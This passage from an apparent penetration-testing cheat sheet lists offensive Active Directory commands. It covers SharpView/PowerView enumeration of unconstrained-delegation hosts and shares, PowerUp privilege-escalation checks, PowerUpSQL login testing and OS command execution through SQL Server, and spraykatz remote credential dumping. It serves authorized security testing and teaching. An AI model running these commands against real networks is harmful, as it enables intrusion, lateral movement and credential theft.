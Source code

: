 List domain computer accounts that allow Kerberos **unconstrained delegation**:

```
PS > .\SharpView.exe Get-DomainComputer -Unconstrained -Properties dnsHostName,userAccountControl
```

Resolve all domain computer IPs by their names:

```
PowerView3 > Get-DomainComputer -Properties name | Resolve-IPAddress
```

##### Shares

List shares for `WS01` computer:

```
PS > .\SharpView.exe Get-NetShare -ComputerName WS01
```



### PowerUp

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
* [https://recipeforroot.com/advanced-powerup-ps1-usage/](https://recipeforroot.com/advanced-powerup-ps1-usage/)

```
PS > Invoke-PrivescAudit
```



### PowerUpSQL

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```
PS > Get-SQLInstanceDomain
PS > Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10 -Username sa -Password 'Passw0rd!' -Verbose
PS > Invoke-SQLOSCmd -Username sa -Password 'Passw0rd!' -Instance sqlsrv01.megacorp.local -Command whoami
PS > Invoke-SQLAudit -Instance WEB01 -Username sa -Password 'Passw0rd!' -Verbose
```



### spraykatz

* [https://github.com/aas-n/spraykatz](https://github.com/aas-n/spraykatz)

```
$ python3 spraykatz.py -u snovvcrash -p 'Passw0rd!' -t 10.10.13.37,10.10.13.38,10.10.13.39
```

